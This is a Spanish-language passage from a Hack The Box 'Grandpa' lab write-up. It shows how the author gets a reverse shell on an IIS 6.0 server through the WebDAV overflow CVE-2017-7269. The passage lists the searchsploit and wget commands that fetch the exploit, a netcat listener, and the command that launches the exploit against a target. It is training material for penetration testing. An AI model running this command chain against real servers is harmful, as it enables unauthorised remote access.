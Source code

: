 descargamos este exploit 

```bash
Grandpa # ❯ searchsploit -m 41738
  Exploit: Microsoft IIS 6.0 - WebDAV 'ScStoragePathFromUrl' Remote Buffer Overflow
      URL: https://www.exploit-db.com/exploits/41738
     Path: /usr/share/exploitdb/exploits/windows/remote/41738.py
File Type: ASCII text, with very long lines

Copied to: /mnt/Pentester/Certificaciones/OSCP/WorkFolder/Plataformas/htb/Grandpa/41738.py
```

pero no entendia su funcionamiento. Asi que busque un exploit en un repositorio de github y pude encontrar uno 

```bash
https://github.com/g0rx/iis6-exploit-2017-CVE-2017-7269/blob/master/iis6%20reverse%20shell
```

descargamos nuestro exploit

```bash
Grandpa # ❯ wget https://raw.githubusercontent.com/g0rx/iis6-exploit-2017-CVE-2017-7269/master/iis6%20reverse%20shell
--2022-02-20 10:34:09--  https://raw.githubusercontent.com/g0rx/iis6-exploit-2017-CVE-2017-7269/master/iis6%20reverse%20shell
Resolviendo raw.githubusercontent.com (raw.githubusercontent.com)... 185.199.108.133, 185.199.109.133, 185.199.110.133, ...
Conectando con raw.githubusercontent.com (raw.githubusercontent.com)[185.199.108.133]:443... conectado.
Petición HTTP enviada, esperando respuesta... 200 OK
Longitud: 12313 (12K) [text/plain]
Grabando a: «iis6 reverse shell»

iis6 reverse shell                         100%[========================>]  12,02K  --.-KB/s    en 0,01s   

2022-02-20 10:34:09 (950 KB/s) - «iis6 reverse shell» guardado [12313/12313]
```

dejamos el puerto 443 en escucha 

```bash
Grandpa # ❯ rlwrap nc -nlvp 443      
listening on [any] 443 ...
```

ejecutamos el exploit de la siguiente manera

```bash
python2 iis6webdav.py 10.129.95.233 80 10.10.14.54 443
```

obtenemos una reverse shell exitosa

